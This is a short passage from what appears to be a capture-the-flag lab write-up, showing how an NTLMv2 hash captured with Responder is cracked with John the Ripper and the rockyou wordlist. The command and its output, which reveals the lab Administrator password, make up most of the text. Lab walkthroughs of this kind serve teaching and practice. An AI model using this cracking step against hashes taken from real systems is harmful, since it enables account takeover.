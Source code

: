 ![resp.py](/img/tier1/resp.py.png)

We just need to crack it.

### john the ripper
`john` (john the ripper) is one commonly used hash cracking tools. Let's copy this hash from `Responder` and throw it into a text file such as `hashed.txt`. Let `john` do the rest:

```shell {linenos=false}
$ john -w=/usr/share/wordlists/rockyou.txt hashed.txt

Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
badminton        (Administrator)     
1g 0:00:00:00 DONE (2022-10-25 23:58) 100.0g/s 409600p/s 409600c/s 409600C/s slimshady..oooooo
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```
